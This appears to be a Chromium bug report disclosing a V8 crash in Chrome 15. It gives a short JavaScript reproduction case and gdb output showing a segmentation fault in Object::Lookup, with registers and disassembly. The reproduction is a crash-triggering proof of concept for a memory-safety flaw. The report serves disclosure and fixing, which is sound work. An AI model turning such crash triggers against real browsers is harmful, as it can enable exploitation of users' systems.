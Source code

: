 <b>VULNERABILITY DETAILS</b>
The javascript code below causes Chromium 15 to crash in V8.

<b>VERSION</b>
Chrome Version: 15.0.871.0 (Developer Build 99583 Linux)
Operating System: Ubuntu 11.04

<b>REPRODUCTION CASE</b>

function Test() {
  var left  = "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX";
  var right = "YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY";
  for (var i = 0; i < 100000; i++) {
    var cons = left + right;
    var substring = cons.substring(20, 80);
    try {
            with ({Test: 'inner' + i}) 
              continue;
    } finally {  }        
  }
}
Test();

<b>FOR CRASHES, PLEASE INCLUDE THE FOLLOWING ADDITIONAL INFORMATION</b>
Type of crash: tab
Crash State: 

Program received signal SIGSEGV, Segmentation fault.
0x0103e85d in v8::internal::Object::Lookup(v8::internal::String*, v8::internal::LookupResult*) ()
(gdb) bt
#0  0x0103e85d in v8::internal::Object::Lookup(v8::internal::String*, v8::internal::LookupResult*) ()
#1  0x35524479 in ?? ()
Backtrace stopped: previous frame inner to this frame (corrupt stack?)
(gdb) info register
eax            0x35524021       894582817
ecx            0xffffffff       -1
edx            0x0      0
ebx            0x3555894        55924884
esp            0xbfffd4e0       0xbfffd4e0
ebp            0x3fcee081       0x3fcee081
esi            0xbfffd5c4       -1073752636
edi            0x2685366d       646264429
eip            0x103e85d        0x103e85d <v8::internal::Object::Lookup(v8::internal::String*, v8::internal::LookupResult*)+93>
eflags         0x210293 [ CF AF SF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) x /4i $pc
=> 0x103e85d <_ZN2v88internal6Object6LookupEPNS0_6StringEPNS0_12LookupResultE+93>:      mov    (%ecx),%eax
   0x103e85f <_ZN2v88internal6Object6LookupEPNS0_6StringEPNS0_12LookupResultE+95>:      and    $0xffffe000,%eax
   0x103e864 <_ZN2v88internal6Object6LookupEPNS0_6StringEPNS0_12LookupResultE+100>:     mov    0x14(%eax),%ebp
   0x103e867 <_ZN2v88internal6Object6LookupEPNS0_6StringEPNS0_12LookupResultE+103>:     cmp    0x12c(%ebp),%edx
